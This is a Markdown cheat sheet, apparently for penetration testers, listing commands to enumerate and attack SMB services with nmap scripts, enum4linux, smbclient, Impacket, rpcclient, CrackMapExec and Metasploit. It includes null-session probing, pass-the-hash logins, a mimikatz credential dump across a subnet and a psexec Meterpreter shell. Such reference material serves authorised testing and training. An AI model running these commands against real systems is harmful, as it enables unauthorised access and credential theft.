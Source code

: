 # SMB Enumeration Tools

## Nmap Enumeration

```
$ ls -lh /usr/share/nmap/scripts/ | grep smb
-rw-r--r-- 1 root root  3355 Oct 12 09:29 smb2-capabilities.nse
-rw-r--r-- 1 root root  3075 Oct 12 09:29 smb2-security-mode.nse
-rw-r--r-- 1 root root  1447 Oct 12 09:29 smb2-time.nse
-rw-r--r-- 1 root root  5238 Oct 12 09:29 smb2-vuln-uptime.nse
-rw-r--r-- 1 root root 45138 Oct 12 09:29 smb-brute.nse
-rw-r--r-- 1 root root  5289 Oct 12 09:29 smb-double-pulsar-backdoor.nse
-rw-r--r-- 1 root root  4840 Oct 12 09:29 smb-enum-domains.nse
-rw-r--r-- 1 root root  5971 Oct 12 09:29 smb-enum-groups.nse
-rw-r--r-- 1 root root  8043 Oct 12 09:29 smb-enum-processes.nse
-rw-r--r-- 1 root root 27274 Oct 12 09:29 smb-enum-services.nse
-rw-r--r-- 1 root root 12097 Oct 12 09:29 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Oct 12 09:29 smb-enum-shares.nse
-rw-r--r-- 1 root root 12527 Oct 12 09:29 smb-enum-users.nse
-rw-r--r-- 1 root root  1706 Oct 12 09:29 smb-flood.nse
-rw-r--r-- 1 root root  7471 Oct 12 09:29 smb-ls.nse
-rw-r--r-- 1 root root  8758 Oct 12 09:29 smb-mbenum.nse
-rw-r--r-- 1 root root  8220 Oct 12 09:29 smb-os-discovery.nse
-rw-r--r-- 1 root root  4982 Oct 12 09:29 smb-print-text.nse
-rw-r--r-- 1 root root  1831 Oct 12 09:29 smb-protocols.nse
-rw-r--r-- 1 root root 63596 Oct 12 09:29 smb-psexec.nse
-rw-r--r-- 1 root root  5190 Oct 12 09:29 smb-security-mode.nse
-rw-r--r-- 1 root root  2424 Oct 12 09:29 smb-server-stats.nse
-rw-r--r-- 1 root root 14159 Oct 12 09:29 smb-system-info.nse
-rw-r--r-- 1 root root  7524 Oct 12 09:29 smb-vuln-conficker.nse
-rw-r--r-- 1 root root  6402 Oct 12 09:29 smb-vuln-cve2009-3103.nse
-rw-r--r-- 1 root root 23154 Oct 12 09:29 smb-vuln-cve-2017-7494.nse
-rw-r--r-- 1 root root  6545 Oct 12 09:29 smb-vuln-ms06-025.nse
-rw-r--r-- 1 root root  5386 Oct 12 09:29 smb-vuln-ms07-029.nse
-rw-r--r-- 1 root root  5688 Oct 12 09:29 smb-vuln-ms08-067.nse
-rw-r--r-- 1 root root  5647 Oct 12 09:29 smb-vuln-ms10-054.nse
-rw-r--r-- 1 root root  7214 Oct 12 09:29 smb-vuln-ms10-061.nse
-rw-r--r-- 1 root root  7344 Oct 12 09:29 smb-vuln-ms17-010.nse
-rw-r--r-- 1 root root  4400 Oct 12 09:29 smb-vuln-regsvc-dos.nse
-rw-r--r-- 1 root root  6586 Oct 12 09:29 smb-vuln-webexec.nse
-rw-r--r-- 1 root root  5084 Oct 12 09:29 smb-webexec-exploit.nse
$ nmap x.x.x.x -v -p 139,445 --script=exampleScript1.nse,exampleScript2.nse
```

## Enum4linux

All simple checks:

```
enum4linux -a x.x.x.x
```

Brute force guessing for share names:
`enum4linux -s /usr/share/enum4linux/share-list.txt x.x.x.x`

## Nmap: 

- `nmap --script smb-* -p 139,445, 172.21.0.0`
- `nmap --script smb-enum-* -p 139,445, 172.21.0.0`

```
/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse
```

## SMBmap

```
$ smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
$ smbmap -H 172.21.0.0 -d [domain] -u "" -p ""
```

## SMBClient

```
$ smbclient -L 172.21.0.0
$ smbclient -L x.x.x.x -U ""
$ smbclient //172.21.0.0/tmp
```

If you have a user name or guest login works:

```
$ smbclient //windows_server_NETBIOS_NAME/destination_folder -U WINDOWS_USER -I x.x.x.x
```

or

```
$ smbclient -L //x.x.x.x -U guest -i x.x.x.x
```

Recursively list a directory:

```
$ smbclient \\\\x.x.x.x\\Folder
smb: \> recurse on             
smb: \> ls
```

Recursively get all files in a share:

```
$ smbget -R smb://x.x.x.x/Folder/ -U Username
```

## Impacket 

```
python3 /usr/share/doc/python3-impacket/examples/smbclient.py username@x.x.x.x
```

```
python3 samdump.py SMB x.x.x.x
```

## Impacket SmbClient: 

```
/usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0
```

## RPCclient

```
rpcclient -U "" -N x.x.x.x enumdomusers
```

Attempt an null connection:

```
rpcclient -U '' x.x.x.x
```

## CrackMapExec

```
$ crackmapexec smb -L 
$ crackmapexec x.x.x.x -u Administrator -H [hash] --local-auth
$ crackmapexec x.x.x.x -u Administrator -H [hash] --share
$ crackmapexec smb x.x.x.0/24 -u user -p 'Password' --local-auth -M mimikatz
```

Attempt an null connection:

```
$ crackmapexec smb x.x.x.x --pass-pol -u '' -p ''
```

## Polenum

Attempt an null connection:

```
$ polenum -u '' -p '' -d x.x.x.x
```

## Metasploit

If you have user credentials, you can use them to get a Meterpreter shell on the machine running smb:

```
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS x.x.x.x
msf6 > set SMBUser <username>
msf6 > set SMBPass <password>
msf6 > set RPORT <default_is_445>
msf6 > run
```